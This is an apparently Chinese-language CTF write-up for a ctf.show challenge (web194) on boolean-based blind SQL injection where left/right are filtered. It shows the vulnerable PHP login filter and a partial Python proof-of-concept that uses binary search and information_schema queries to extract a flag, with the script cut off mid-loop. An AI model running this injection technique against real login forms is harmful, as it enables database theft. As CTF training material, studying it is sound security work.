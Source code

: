 ```python
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639058223341-7634227e-1c17-47fb-990a-120604ae49d7.png)
## web194（布尔注入，过滤了left、right）
```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```
这个题又双叒叕把上一题的姿势过滤掉了，想了好一会，最后翻文档发现还有个mid函数，用法和substr一样
poc：
```python
'''
Author: KonDream
Date: 2021-12-09 23:43:36
LastEditors:  KonDream
LastEditTime: 2021-12-09 23:45:02
Description:  
'''
import requests

url = 'http://a889051d-cd2f-452a-aa92-ef2ff1e555b4.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_flxg,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'"
# 爆字段
payload = "select f1ag from ctfshow_flxg"


for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

```